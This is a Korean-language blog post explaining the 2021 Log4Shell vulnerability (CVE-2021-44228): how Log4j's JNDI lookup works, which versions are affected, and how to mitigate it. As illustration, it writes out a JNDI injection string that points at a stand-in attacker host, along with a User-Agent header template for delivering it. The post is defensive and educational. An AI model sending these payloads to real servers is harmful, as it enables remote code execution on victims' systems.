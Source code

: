 ```yaml
---
title: "Log4j 보안 취약점 "
tags: [보안뉴스, log4j, log4shell]
author: eli_ez3r
key: 20211213
modify_date: 2021-12-13
article_header:
  type: cover
  image:
    src: 
---
```

-----

2021년 12월 10일  Log4j보안 취약점에 대한 긴급패치가 발표되었다.

이번 발견된 Log4j취약점 `Log4Shell`은 2021년 11월 24일 Alibaba Cloud 보안팀으로 부터 발견된 Zero-Day[^1] 취약점으로 뉴스에서 발표될 당시에는 이미 취약점 패치를 진행한 후 발표된 One-Day[^2] 취약점인 상태였다.

KISA : [Apache Log4j 2 보안 업데이트 권고](https://www.krcert.or.kr/data/secNoticeView.do?bulletin_writing_sequence=36389)

CVE : [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

-----



## Log4j 란?

Log4j는 Apache Software Foundation에서 개발한 인기있는 [로깅 유틸리티 라이브러리](https://en.wikipedia.org/wiki/Log4j)로 Apache 오픈소스이다.

전 세계 수 많은 서비스들이 Log4j를 이용하고 있으며 자바 프로그래밍 초보시절 `system.out.println("debug : " + str)` 로 디버깅 하던 것 대신, `log.info("debug {}", str)`하라고 조언 받은것 처럼 널리 사용하고 있는 라이브러리이다.



## Log4j 취약점

현재 문제가 있는 log4j 라이브러리는 `log4j-core-<version>jar`이며, Log4j가 넘겨받은 변수를 그대로 로깅하는 것이 아니라 해당 변수를 분석해 할 수 있는 경우 실행하는 `Lookups` 기능에서 발견되었다.

예를들어, `log.info("Debug: {}", str)`에서 `str`이 `${env:USER}`라면 `USER`가 누군지 찾아서, `Debug: eli_ez3r`라고 문구를 완성하고 해당 문구를 출력하는 경우이다.

현재 취약점은 Lookups기능 중에서도 특히 `JDNI`라는 Lookups을 이용해 공격이 가능하다.

Apache Log4j 2의 일부 기능에는 재귀 분석 기능(Recursive Analysis Functions)이 있기 때문에 공격자가 직접 악성 요청을 구성하여 원격 코드 실행 취약점(RCE)을 유발시킬 수 있어 CVSS스코어 10점으로 가장 높은 심각도를 나타내고 있다.

취약점 악용에는 특별한 구성이 필요하지 않으며, Alibaba Cloud 보안팀의 검증결과 Apache Struts2, Apache Solr, Apache Druid, Apache Flink 등이 모두 영향을 받는 것으로 알려있다.



## JNDI를 이용한 공격

JNDI란 Java Naming and Directory Interface의 약자로 보통 분산시스템에서 다른 리소스를 가져오는데 사용할 수 있다.

다른 리소스의 예로 자바 클래스 등에서 공격자가 이 경로를 자신의 서버로 지정하면 취약점이 있는 서버가 공격자의 서버에서 클래스를 다운받는 것이다.

이렇게 공격자의 서버에서 클래스를 다운받아 코드를 실행하게 된다.



예를들어 다음과 같은 로그 라인이 서버 어플리케이션에 존재한다고 하자.

```java
log.info("Debug: {}", payload);	
```

여기서 payload는 HTTP Requests에서 요청자가 보낸 문자열이다.

이 문자열이 `${jndi:ldap://attacker.com/classname}`을 포함하면 Log4j는 이를 해석하여 `ldap://attacker.com/classname`을 실행시키게 된다.

현재 가장 쉽게 공격할 수 있는 방법은 HTTP 헤더 `User-Agent`에 ldap주소를 넣어 코드를 다운받는 방법이라고 한다.

```
User-Agent : ${jndi:ldap://<host>:<port>/<path>}
```

물론 User-Agent 헤더 뿐만 아니라, HTTP Request에게서 받은 문자열을 로깅하는 경우 어디서든지 지정한 문자열을 로깅하기만 하면 취약점에 노출되어 있다.



## Log4Shell 취약점은 사상 최약의 취약점?

Log4Shell의 취약점은 RCE취약점으로 취약점 중에서도 심각한 단계의 취약점으로 분류된다.

하지만 그 외에도 아래와 같은 점들 때문에 `사상 최약의 취약점`이라고 불려지고 있다.

1. Log4j는 자바 기반의 소프트웨어에서 굉장히 많이 쓰여지고 있는 라이브러리이다. => 공격 대상/범위가 광범위하다
2. 공격 방법이 간단하다. => 복잡한 과정없이 POC코드를 전송하기만 하면 공격이 성공한다.
3. 하나의 소프트웨어는 여러개의 소프트웨어가 조합되어 만들어지는데, 그중 한곳에서라도 Log4j를 사용하게 되면, 해당 소프트웨어는 취약하다.
4. 내 서버가 이미 공격을 당했는지 분석하기 위해서는 Log4j를 사용한 시점부터 분석해야 한다. => 10년 넘게 Log4j를 사용했다면?



## 영향 받는 버전

1. Apache Log4j 2
   - 2.0-bete9 ~ 2.14.1 모든 버전
2. Apache LOg4j 2를 사용하는 제품
   - [참고사이트](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)를 확인하여 해당 제품을 이용 중일 경우, 해당 제조사의 권고에 따라 패치 또는 대응 방안 적용



## 해결방법

1. JDNI 취약점이 해결된 버전으로 패치한다
2. 2.0-beta9 ~ 2.10.0
   - JndiLookup 클래스를 경로에서 제거 : zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
3. 2.10 ~ 2.14.1
   - log4j2.formatMsgNoLookups 또는 LOG4J_FORMAT_MSG_NO_LOOKUPS 환경변수를 true로 설정
4. [제조사 홈페이지](https://logging.apache.org/log4j/2.x/download.html)를 통해 최신버전(2.15.0)으로 업데이트 적용



-----

출처: [ESTsecurity](https://blog.alyac.co.kr/4341), [KISA](https://www.krcert.or.kr/data/secNoticeView.do?bulletin_writing_sequence=36389)

-----

[^1]:취약점이 알려지지 않거나, 관련 패치가 배포되지 않은 시기
[^2]: 취약점 대응 패치가 배포된 시기
